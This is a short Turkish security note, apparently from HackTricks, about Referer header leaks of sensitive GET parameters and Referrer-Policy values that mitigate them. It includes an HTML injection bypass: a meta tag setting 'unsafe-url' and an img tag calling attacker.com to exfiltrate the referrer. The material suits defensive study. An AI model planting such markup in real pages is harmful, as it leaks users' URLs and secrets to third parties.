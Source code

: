 {{#include ./banners/hacktricks-training.md}}

# Referrer başlıkları ve politikası

Referrer, tarayıcılar tarafından önceki ziyaret edilen sayfayı belirtmek için kullanılan başlıktır.

## Hassas bilgilerin sızdırılması

Eğer bir web sayfasında herhangi bir noktada hassas bilgiler GET isteği parametrelerinde yer alıyorsa, eğer sayfa dış kaynaklara bağlantılar içeriyorsa veya bir saldırgan kullanıcının saldırgan tarafından kontrol edilen bir URL'yi ziyaret etmesini sağlamak için (sosyal mühendislik) bir şekilde yönlendirebiliyorsa, en son GET isteği içindeki hassas bilgileri dışarıya aktarabilir.

## Azaltma

Tarayıcının hassas bilgilerin diğer web uygulamalarına gönderilmesini **önleyebilecek** bir **Referrer-policy** izlemesini sağlayabilirsiniz:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Karşı Önlem

Bu kuralı bir HTML meta etiketi kullanarak geçersiz kılabilirsiniz (saldırganın bir HTML enjeksiyonu kullanması gerekir):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Savunma

Hassas verileri asla GET parametreleri veya URL'deki yolların içine koymayın.

{{#include ./banners/hacktricks-training.md}}
